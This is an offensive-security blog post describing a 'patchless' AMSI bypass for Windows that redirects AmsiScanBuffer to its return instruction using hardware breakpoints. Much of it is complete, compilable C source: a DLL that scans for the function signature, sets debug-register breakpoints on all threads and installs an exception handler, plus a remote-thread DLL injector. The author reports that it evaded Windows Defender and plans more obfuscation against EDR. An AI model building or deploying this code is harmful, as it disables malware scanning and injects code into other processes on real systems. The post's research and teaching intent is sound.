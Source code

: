 ```yaml
---
title: Frida vs. AMSI - Beyond Prototyping
description: We broke AMSI in theory, but now let's turn it into a real exploit!
---
```


# Frida vs. AMSI - Beyond Prototyping

In my [previous article on bypassing AMSI](/blogs/frida-vs-amsi), I discussed various approaches to disabling AMSI on a Windows system - by hooking and intercepting key functions, by patching them in memory, or by corrupting the data structures that AMSI relies on to function. 

All of these techniques are certainly effective, and Frida was a great tool for rapidly implementing and experimenting with them.

However, none of them are particularly stealthy. Patching a process in memory is a fairly noisy activity. While it might not get picked up by *every* EDR as long as you're not using signatured tooling, any product with a robust behavioural analysis function is likely to flag this as suspicious behaviour.

In this article, I'll describe another approach to patching AMSI. I also hope to further demonstrate Frida's usefulness as a rapid prototyping tool, as it was my earlier research using Frida that brought me here in the first place.

## Patchless Patching

The basic idea is recognisable from the previous article in this series: we're still patching the *AmsiScanBuffer()* function to short-circuit its functionality. In this case, we're going to simply redirect execution to the RET instruction at the end of *AmsiScanBuffer()* whenever it gets invoked. The function will return instantly with a default return value of 0.

The way we're going to execute that patch is different, however. We're going to use hardware breakpoints to intercept *AmsiScanBuffer()*, a technique I can't take credit for. I learned about it from an article in [VXUnderground Black Mass Halloween 2022](https://vx-underground.org/Papers/Other/VXUG%20Zines), which I highly recommend if you're comfortable with C. It's a great read.

The basic idea works as follows:

1. Create a DLL which must be injected into or loaded by the process you want to patch AMSI for. 
2. Within *DllMain()*, identify the memory address of the *DllCanUnloadNow()* function in the mapped version of AMSI.DLL. It precedes the function we're actually interested in.
3. Use egg-hunting techniques to scan forward from *DllCanUnloadNow()*, searching for the start of *AmsiScanBuffer()*. This indirect approach helps with evasion, as per the old **@am0nsec** implementation.
4. Manipulate debug registers to set a hardware breakpoint on the address of *AmsiScanBuffer()*. When the function is invoked, a special exception will be thrown.
5. Register an exception handler which simply redirects execution to the end of the function.

As with other egg-hunting AMSI patching techniques, this approach is somewhat fragile as the specific signatures we're searching for will change between different versions of Windows.
## Proof of Concept

Note that this is only a proof of concept and hasn't been tested extensively. Here's what it looks like:

```c
#include <windows.h>
#include <sys/types.h>
#include <processthreadsapi.h>
#include <stdio.h>
#include <tlhelp32.h>

// AMSI Bypass DLL via Hardware Breakpoints
// Find some way to load or inject this DLL into your process and it will hook AmsiScanBuffer().
// Compilation: x86_64-w64-mingw32-gcc amsi-breakpoint.c -shared -o  amsi-breakpoint.dll

// A simple memory scanner for the purpose of finding ROP gadgets.
uintptr_t find_egg(uintptr_t addr, char *egg, int size, int max)
{
    for (int i = 0; i < max; i++)
    {
        if (memcmp((LPVOID)(addr + i), egg, size) == 0) {
            return (addr + i);
        }
    }
    return 0;
}

// Exception handler that gets invoked when the breakpoints trigger.
// It uses find_egg() to identify the RET instruction at the end of AmsiScanBuffer() and redirect execution to it.
// This effectively patches the function to return 0.
LONG WINAPI ExceptionHandler(PEXCEPTION_POINTERS ExceptionInfo) {
	// Validate that it's a single-step exception, thrown by the hardware breakpoint.
	if (ExceptionInfo->ExceptionRecord->ExceptionCode == STATUS_SINGLE_STEP) {
		// Search forwards from the current location for a RET instruction and move the instruction pointer to it.
		uintptr_t rip = ExceptionInfo->ContextRecord->Rip;
		uintptr_t newrip = find_egg(rip, "\xc3", 1, 500);
		ExceptionInfo->ContextRecord->Rip = newrip;
		return EXCEPTION_CONTINUE_EXECUTION;
	}
	return EXCEPTION_CONTINUE_SEARCH;
}

// Set a hardware breakpoint on a thread by manipulating the debug registers of its thread context.
BOOL set_hardware_breakpoint(HANDLE thd, uintptr_t address) {
	CONTEXT context = { .ContextFlags = CONTEXT_DEBUG_REGISTERS };
	GetThreadContext(thd, &context);
	
	// set the breakpoint address
	context.Dr0 = (uintptr_t) address;

	// set bits 0 and 1 of dr7 to '10' (enable dr0 local breakpoint)
	context.Dr7 |= 1ull << 0;
	context.Dr7 &= ~(1ull << 1);

	// set bits 16 and 17 of dr7 to '00' (set dr0 break trigger to "execute")
	context.Dr7 &= ~(1ull << 16);
	context.Dr7 &= ~(1ull << 17);

	// set bits 18 and 19 of dr7 to '00' (set dr0 break size to 1 byte)
	context.Dr7 &= ~(1ull << 18);
	context.Dr7 &= ~(1ull << 19);	

	return SetThreadContext(thd, &context);
}


// Remove a hardware breakpoint on a thread by manipulating the debug registers of its thread context.
BOOL remove_hardware_breakpoint(HANDLE thd) {
	CONTEXT context = { .ContextFlags = CONTEXT_DEBUG_REGISTERS };
	GetThreadContext(thd, &context);
	
	// unset the breakpoint address
	context.Dr0 = 0ull;
	
	// unset bit 0 of dr7
	context.Dr7 &= ~(1ull << 0);
	
	return SetThreadContext(thd, &context);
}

// Iterate through the threads associated with a process and hook all of them with hardware breakpoints.
void hook_process(DWORD pid, uintptr_t addr) {
	HANDLE h = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
	THREADENTRY32 te = { .dwSize = sizeof(THREADENTRY32) };
	Thread32First(h, &te);

	do {
		if (te.th32OwnerProcessID == pid && (te.dwSize >= FIELD_OFFSET(THREADENTRY32, th32OwnerProcessID) + sizeof(te.th32OwnerProcessID))) {
			HANDLE thd = OpenThread(THREAD_ALL_ACCESS, FALSE, te.th32ThreadID);
			BOOL res = set_hardware_breakpoint(thd, addr);
			if (res) {
				printf("Hooked 0x%p on thread %i\n", addr, te.th32ThreadID);
			}
		}
	} while (Thread32Next(h, &te));

	CloseHandle(h);		
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
	const PVOID handler = AddVectoredExceptionHandler(1, ExceptionHandler);	
	const DWORD pid = GetCurrentProcessId();
	
	// Find the target address using a signature-based technique for evasion. Signature may need to be updated for different Windows versions.
	char *egg = "\x4C\x8B\xDC\x49\x89\x5B\x08\x49\x89\x6B\x10\x49\x89\x73\x18\x57\x41\x56\x41\x57\x48\x83\xEC\x70";
	uintptr_t base = (uintptr_t)GetProcAddress(GetModuleHandleW(L"AMSI.dll"), "DllCanUnloadNow");
	uintptr_t addr = find_egg(base, egg, 24, 65535);

	switch(fdwReason) {
		case DLL_PROCESS_ATTACH:
			// Hook the target address.	
			hook_process(pid, addr);
			break;
		
		break;
	}
	
	return TRUE;
}
```

For testing purposes, you can use the following "injector" to load the DLL into memory:

```c
#include <windows.h>
#include <sys/types.h>

void dll_inject(char *dll_path, pid_t pid) {
	HANDLE proc = OpenProcess(PROCESS_ALL_ACCESS, 0, pid);

	void *ptr = VirtualAllocEx(proc, 0, strlen(dll_path), MEM_COMMIT|MEM_RESERVE, PAGE_READWRITE);
	WriteProcessMemory(proc, ptr, dll_path, strlen(dll_path), 0);

	void *kernel32 = GetModuleHandle(TEXT("kernel32.dll"));
	void *loadLibAddr = GetProcAddress(kernel32, "LoadLibraryA");
	CreateRemoteThread(proc, NULL, 0, loadLibAddr, ptr, 0, NULL);	
}

void main() {
	dll_inject("C:\\Users\\IEUser\\Downloads\\amsi-breakpoint.dll", 2768);
}
```

Upon running `inject.exe` with the correct path and the PID of your Powershell process, you should find that AMSI has been disabled for it.

![a screenshot that demonstrates the breakpoint AMSI bypass](/img/amsi-breakpoint.png)

## Conclusion

I won't be publishing the code for this AMSI bypass elsewhere, as I haven't tested it extensively enough to be sure it functions reliably. On my Windows 10 testing VM, though, it was enough to bypass AMSI without triggering the (non-enterprise) Windows Defender present on the system.

Breakpoint hooking is a technique I have injected from elsewhere (pun intended), but everything else I did here builds on what I learned in my previous article. I think it's a great illustration of how you can use reverse engineering and instrumentation tools to go from idea to prototype, and then prototype to proof of concept.

I might now go from proof of concept to finished tooling, with a bit more obfuscation included to throw off EDR from the bits that might trigger a signature. Tools like this tend to get burned pretty quickly when you release them in public, though, so I'll probably be keeping any further development on this one to myself. 